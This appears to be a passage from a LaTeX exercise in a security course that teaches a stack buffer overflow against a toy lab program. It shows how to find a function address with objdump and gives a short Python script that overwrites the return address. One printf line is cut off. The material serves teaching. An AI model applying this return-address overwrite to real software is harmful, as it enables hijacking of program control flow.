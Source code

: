 \documentclass[a4paper, 10pt]{article}
\begin{document}
\begin{problem}

\myspace

\noindent Now we need to call the program in such a way that we overwrite the return value
with the address of the code that we want the program to return to.
Let's say that we want to make the program return to the main program again.
We have to first figure out the address of \textbf{\textit{greeting}}.
One simple way is to add the following code to the program.
This way the program can simply tell us the address.

\begin{codingbox}
printf("%
\end{codingbox}

\noindent What if we cannot edit the program, how to obtain such information?
One method is disassembler.
Try \texttt{objdump -d ex2} to disassembly the program.
You may get a long list.
It might be easier to save the result to a file (using redirection) and use a text editior to open it (or use \textbf{more}).
Anyway, I will use grep to get the specific line.

\begin{codingbox}[language=bash]
$ objdump -d ex2 |grep greeting

0000000000400646 <greeting>:
  40081b:   e8 26 fe ff ff       callq 400646 <greeting>
$
\end{codingbox}

\noindent With grep, we only filter lines with \textbf{greeting}.
BINGO! The first line is just what we need.
Given that the stack layout of this program should be somewhat similar to what we get from exercise 1,
we can combine the knowledge to create an attack program.
Assuming that the return address is 20 bytes away from buff, here is how it may look.

\begin{codingbox}[language=python]
# !/usr/bin/python3
# wrapper

import os

buff = 20 * (b'x')
addr = bytearray.fromhex("400646")
addr.reverse()

buff += addr
print("exec ./ex2 with buff", buff)
os.execv('./ex2',['./ex2', buff]);
\end{codingbox}


\end{problem}
\end{document}
